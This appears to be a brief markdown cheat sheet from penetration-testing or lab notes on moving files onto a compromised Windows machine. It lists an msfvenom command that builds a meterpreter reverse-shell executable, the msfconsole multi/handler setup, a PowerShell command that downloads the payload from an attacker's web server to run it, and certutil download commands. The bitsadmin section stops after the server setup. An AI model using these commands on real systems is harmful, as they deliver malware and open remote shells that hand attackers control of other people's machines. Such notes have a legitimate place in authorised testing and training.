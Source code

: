 
##### FTP / TFTP

start ftp server and upload/download files

##### metasploit

create meterpreter shell and use upload and download modules
create payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -f exe -o met.exe
```

in msfconsole use  multi/handler
```
use multi/handler
```

configuration
```
set payload windows/meterpreter/reverse_tcp
set LHOST IP
set LPORT PORT
```

as marcus download met.exe from the python server we create and execute it
```
iwr -uri http://<ip>:<port>/met.exe -Outfile met.exe
```


##### certutil

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

```
certutil -urlcache -split -f http://<ip>:<port>/<s_file> <d_file>
certutil.exe -urlcache -split -f http://<ip>:<port>/<s_file> <d_file>
```


##### bitsadmin

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```
